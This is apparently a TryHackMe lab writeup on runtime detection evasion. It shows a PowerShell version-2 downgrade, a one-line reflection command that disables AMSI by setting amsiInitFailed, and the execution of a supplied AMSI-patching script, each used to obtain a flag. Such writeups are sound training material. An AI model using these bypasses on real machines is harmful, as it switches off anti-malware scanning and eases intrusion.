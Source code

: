 # Room Information

![]()

Room link: https://tryhackme.com/room/runtimedetectionevasion

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 08/15/2023

# Room Tasks

## PowerShell Downgrade

1. Started up this task's machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt0.png)

2. `PowerShell -Version <VERSION NUMBER>` from the Windows machine to launch the specified version of PowerShell, for which we'll specify the version 2.0 of PowerShell since this version will allow us to bypass security features that weren't implemented in this version yet, which ended up creating a text file on the machine's desktop containing this task's flag

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt2.png)


**TASK COMPLETED!**

## PowerShell Reflection

1. Started up this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt1.png)

2. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)` from the Windows machine to use Reflection to modify and bypass the AMSI (Anti-Malware Scan Interface) utility, which ended up creating a text file on the machine's desktop containing this task's flag
```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt3.png)

## Patching AMSI

1. Started this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt1.png)

2. `.\<EXPLOIT>` from the Windows machine to execute the provided PowerShell executable, which ended up creating a text file on the machine's desktop containing this task's flag
```PowerShell
PS C:\Users\THM-Attacker> .\Desktop\bypass.ps1
True
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt3.png)


**TASK COMPLETED!**
